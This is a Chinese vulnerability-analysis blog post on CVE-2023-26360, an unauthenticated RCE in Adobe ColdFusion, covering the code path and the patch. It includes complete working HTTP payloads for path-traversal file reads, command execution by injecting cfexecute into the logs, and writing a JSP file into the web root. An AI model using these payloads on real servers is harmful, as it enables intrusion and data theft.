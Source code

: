 

# Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360 - 先知社区

Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360

- - -

[![](assets/1706959641-ef99858c30e74d13ca9e6494970811fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125001505-bc4510c4-bad3-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.16、Adobe ColdFusion < 2021.0.6  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

网上的漏洞利用入口为 **/cf\_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc** ，我们就先来分析 **\*.cfc** 的路由处理逻辑。从 **web.xml** 配置文件里面可以看到，该路由的处理类为 **coldfusion.bootstrap.BootstrapServlet** 。而这个类只是一个入口类，实际处理类为 **coldfusion.xml.rpc.CFCServlet** 。

[![](assets/1706959641-c15badd53588e2d707fbc48e1aca163d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125002945-c8fc6518-bad5-1.png)

在 **coldfusion.xml.rpc.CFCServlet** 这个类里，使用 **IPFilterUtils.checkAdminAccess()** 函数来判断当前路由用户是否有权限访问。然而这个函数使用了 **req.getRequestURI()** 和 **startsWith()** 来判断权限，明显存在绕过。例如：原先访问 **/CFIDE/adminapi** 会被限制，现在改成 **/CFIDE//adminapi** 即可绕过程序检测。这处绕过，也就是后面的 **CVE-2023-29298** 漏洞。

[![](assets/1706959641-b94909bf92ce16a75db9054aa6b71c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003008-d6740a2a-bad5-1.png)

本次我们分析的是 **CVE-2023-26360** ，继续往下跟代码逻辑。**Adobe ColdFusion** 程序根据不同的请求类型（**CFC**或者**Axis**），创建对应的 **filterchain** 。在 **CFC** 对应的的 **filterchain** 中，我们需要关注 **GlobalsFilter、ComponentFilter** 这两个 **filter** 。

[![](assets/1706959641-1a09b302cfd707ac8547324061eddd56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003021-de30474c-bad5-1.png)

第一个过滤器 **GlobalsFilter** ，主要用来初始化请求相关信息，并将这些信息封装在不同的 **scope** 里。后续 **POC** 中的部分参数，就是从这些 **scope** 中获取，所以这里稍微关注下就行。

[![](assets/1706959641-11482cca90509aadf7fabd5b22790477.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003120-01390706-bad6-1.png)

第二个过滤器 **ComponentFilter** ，就是本次漏洞要关注的核心类了。这里，我们需要重点关注以下 3 个部分。

-   第 1 个部分：我们需要将 **urlScope.get("\_cfclient")** 设置为 **true** ，这样才能触发到后续的漏洞点。而 **urlScope** 中的数据来自 **GET** 请求数据，所以我们正常设置 **\_cfclient=true** 就行。
-   第 2 个部分：这里调用了 **FilterUtils.GetArgumentCollection(context)** ，该函数主要是将用户请求数据重新封装起来。在函数里面，我们关注到调用了 **WDDXDeserialize()** ，存在一个反序列化操作。这处也就是后续的 **CVE-2023-29300** 漏洞，本文暂不讨论。
-   第 3 个部分：这处会把第 2 步封装好的数据，传给 **JSONUtils.deserializeJSON()** 函数处理。这个函数调用栈比较长，我们下面会逐步分析。

[![](assets/1706959641-e5431d29ab79bb4a0e8c7c7958cc0112.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003131-07e3c5b4-bad6-1.png)

在 **JSONUtils.deserializeJSON()** 函数中，程序会从用户请求数据中取 **classname** 数据，然后将其传给 **TemplateProxyFactory.resolveFile()** 函数。

[![](assets/1706959641-7faf7ef9277b90bceef50953d4a30004.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003141-0e0005d4-bad6-1.png)

**TemplateProxyFactory.resolveFile()** 函数，会根据传进来的文件路径，去加载对应的类。如果我们指定的路径文件不是标准的 **Java** 字节码文件，程序会自动把他编译成字节码文件，最终缓存至 **/app/WEB-INF/cfclasses/** 目录下。新编译的类继承自 **coldfusion.runtime.CFPage** ，并且程序最终会调用新编译类的 **runPage()** 方法。我们可以来看一下，当模板文件名为 **../../../../../../../../../../../../../etc/passwd** 时，程序编译后的字节码文件如下：

[![](assets/1706959641-05eba783953199e343024581650d4c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003226-28b759ea-bad6-1.png)

那么通过这一特性，我们就能达到任意文件读取的效果。在审计代码时，我们会发现这个系统上自带一些 **cfc** 文件。这些文件里面出现了很多特殊标签，如 **cfinclude、cffunction、cfargument、cfset、cfif** 等。通过查询资料，我们发现这些标签都属于 **CFML**（ColdFusion Markup Language）语言的一部分。那么我们就可以通过翻阅[官方手册](https://cflib.org/udf/FileWrite)，找一些危险函数来达到 **RCE** 的目的。  
例如：写文件函数

[![](assets/1706959641-2ff1879d3e29d0ade8ebf25538c0bbf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003238-2fd3a67a-bad6-1.png)

例如：命令执行函数

[![](assets/1706959641-f44c78d5e0cad50e27b746307b919d66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003250-36daf450-bad6-1.png)

最终的利用思路：将 **CFML** 语句通过报错写入日志文件中，然后再通过 **CVE-2023-26360** 漏洞编译、执行日志文件实现 **RCE** 。

## 漏洞利用

### 任意文件读取

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 90
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../etc/passwd"}}
```

[![](assets/1706959641-3f8e451ee40473b642c80105fa123eb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003325-4c24d3d0-bad6-1.png)

### 命令执行

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 67
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfexecute name='id' outputFile='/tmp/aaa' ></cfexecute>
```

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[![](assets/1706959641-9798dbf7e37a55c0113cd41cd90c702b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003335-51e95796-bad6-1.png)

### 文件写入

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 108
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfscript>fileWrite('/opt/coldfusion/cfusion/wwwroot/cf_scripts/demo.jsp','<%=233%>');</cfscript>
```

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[![](assets/1706959641-a4c47ee8d4e91665740bd27e617ffed0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003344-575b2754-bad6-1.png)

## 补丁分析

官方修复方式：所有的 **cfclient** 请求，文件后缀必须是 **.cfc** 结尾，相当于只能请求服务器上已有的 **cfc** 文件了。

[![](assets/1706959641-96a34915992b703c0e1103f7a3a029d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003354-5d4ed5b6-bad6-1.png)

## 参考文章

[https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/](https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/)  
[https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis](https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis)  
[https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360](https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360)
